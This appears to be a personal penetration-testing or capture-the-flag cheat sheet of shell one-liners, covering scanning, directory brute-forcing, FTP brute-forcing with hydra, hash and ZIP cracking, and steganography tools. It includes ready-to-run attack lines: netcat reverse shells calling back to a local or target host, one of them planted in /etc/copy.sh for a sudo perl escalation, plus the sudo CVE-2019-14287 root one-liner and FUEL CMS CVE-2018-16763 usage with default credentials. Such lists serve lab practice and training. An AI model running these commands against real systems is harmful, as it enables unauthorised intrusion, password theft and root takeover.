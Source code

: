 ### nmap scan
`sudo nmap -sC -sV -v -oN nmap.md TARGET_IP` 


### Gobuster Scan
`sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://TARGET_IP/`

`sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://TARGET_IP/ -x php,py,js,css,html,txt`

`sudo gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://TARGET_IP/ -x php,py,js,css,html,txt`


### dirbuster scan
`sudo dirb http://TARGET_IP/ -R` 

### Cat all find read
`cat *`


### import TARGET_IP
`$IP`


### To Check Sudo Permissions
`sudo -l
sudo su
su root`

### curl command to change alphabets [agent-user] in web
`sudo curl -A "CHANGE_LETTER" -L TARGET_IP`


### prev esc linux bash shell
`sudo bash`

### download file from SSH TARGET MACHINE
`scp USERNAME@TARGET_IP_ADDRS:FILENAME`


### perl write to copy.sh [reverse shell]
`echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LOCAL_IP 5554 >/tmp/f' >/etc/copy.sh

sudo /usr/bin/perl /home/itguy/backup.pl`

### FTP Usage
`ftp TARGET_IP`

### SMBclient
`smbclient -L <IP_ADDRESS>`


### python shell - stable bash shell
`python3 -c  'import pty;pty.spawn("/bin/bash")'`


### FUEL CMS Exploit 1.4.1 CVE-2018-16763
`run command with ""
example:
CMD: "ls -la"
default cred: admin: admin`


### FUEL CMS Database login info
`fuel/application/config
cat database.php`


### netcat revershell
`"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc TARGET_IP 1234 >/tmp/f"`


### hydra command to brute-force FTP with username
`sudo hydra -l USERNAME -P /usr/share/wordlists/rockyou.txt TARGET_IP ftp`


### run python http server
`sudo python -m SimpleHTTPServer 80`


### wget download file
`sudo wget http://LOCAL_IP/FILE_NAME -0  PATH/PATH/`

`sudo wget http://YOUR_IP_ADDRS:8080/FILENAME`


### john cracking the password
`sudo john HASH_FILENAME --wordlist=/usr/share/wordlists/rockyou.txt`

### john ZIP file cracking
`sudo zip2john FILENAME.zip > OUTFILENAME`

### fcrackzip command
`fcrackzip <zip-file> -D -p /usr/share/wordlists/rockyou.txt`

### 7zip
`7z e ZIP_FILENAME`

### steghide command
`steghide info FILENAME [info about filename]

steghide extract -sf FILENAME [extract]`

### CyberChef to crack hash [base64]
https://gchq.github.io/CyberChef/

## sudo 1.8.21 exploit CVE-2019-14287
`sudo -u#-1 /bin/bash [spawn as root]`
